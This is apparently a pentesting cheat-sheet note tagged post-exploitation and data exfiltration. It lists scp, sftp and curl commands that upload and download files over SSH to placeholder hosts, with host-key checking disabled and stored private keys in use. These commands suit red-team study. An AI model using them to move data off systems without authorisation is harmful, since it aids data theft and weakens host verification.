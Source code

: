 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - network-ports
  - ssh
  - linux
---
```

# Usage

## 01 - Installation

### 1.1 - OpenSSH Client

```
$ sudo apt install -y openssh-client

$ sudo yum install -y openssh-client

$ sudo dnf install -y openssh-client

$ sudo pacman -S --noconfirm openssh

$ sudo apk add --no-cache --quiet openssh
```

### 1.2 - cURL

![[Core Utilities#^cb5d15]]
## 02 - Upload

### 2.1 - `scp`

```
> scp /path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa <username>@<IP>:.
```

**I**mprove `scp` file transfer's speed by **using blowfish** and `compression` flag of `-C`.

```
> scp -Cc blowfish /path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa <username>@<IP>:.

> scp -o HostKeyAlgorithms=+ssh-rsa /path/to/file.txt <username>@<IP>:.
```

### 2.2 - `sftp`

```
> sftp [-P <PORT>] <username>@<IP>
```

### 2.3 - `curl`

```
> curl -T /path/to/file.txt sftp://<username>@<password>@<IP>

> curl -u <username>:<password> -T /path/to/file.txt sftp://<IP>

> curl -u <username> [--key-type <DER | PEM | ENG>] --key ~/.ssh/id_rsa --pubkey ~/.ssh/id_rsa.pub -T /path/to/file.txt "sftp://sftp.example.com/"
```

## 03 - Download

```
> scp <username>@<IP>:/path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa .
```

Improve `scp` file transfer's speed by **using blowfish** and `compression` flag of `-C`.

```
> scp -Cc blowfish <username>@<IP>:/path/to/file.txt -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" -i id_rsa .

> scp -o HostKeyAlgorithms=+ssh-rsa <username>@<IP>:/path/to/file.txt .
```

### 2.2 - `sftp`

```
> sftp [-P <PORT>] <username>@<IP>
```

### 2.3 - `curl`

```
> curl -O sftp://<username>@<password>@<IP>/file.txt

> curl -u <username>:<password> -O sftp://<IP>/file.txt

> curl -u <username> [--key-type <DER | PEM | ENG>] --key ~/.ssh/id_rsa --pubkey ~/.ssh/id_rsa.pub -O "sftp://sftp.example.com/file.txt"
```